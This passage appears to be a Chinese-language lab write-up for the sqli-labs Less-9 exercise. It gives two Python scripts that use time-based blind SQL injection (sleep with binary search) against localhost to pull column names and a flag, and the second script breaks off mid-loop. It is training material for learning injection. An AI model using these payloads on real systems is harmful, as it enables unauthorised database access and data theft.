 

获取列名

```python
# 获取列名
import requests
import time
ans = ''
i = 1
vis = 0
while True:
    print("*"*15,i,'*'*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        url = "http://localhost/sqli-labs/Less-9/?id=1'"\
             f" and if(ord(substr((select group_concat(column_name) from information_schema.columns where table_name='flags'),{i},1))>{mid},sleep(3),1) %23"
        res = requests.get(url)

        if max == min+1:
            break
        
        if time.time() - start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,max]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
```



获取flag

```python
# 获取flag
import requests
import time
ans = ''
i = 1
vis = 0

while True:
    print('*'*15,i,'*'*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        start_time = time.time()
        payload = f"?id=1' and if(ord(substr((select flag from answers.flags where stage=9),{i},1))>{mid},sleep(3),1) %23"
        
        url = f"http://localhost/sqli-labs/Less-9/{payload}"
        res = requests.get(url).text
        if min + 1 == max:
```
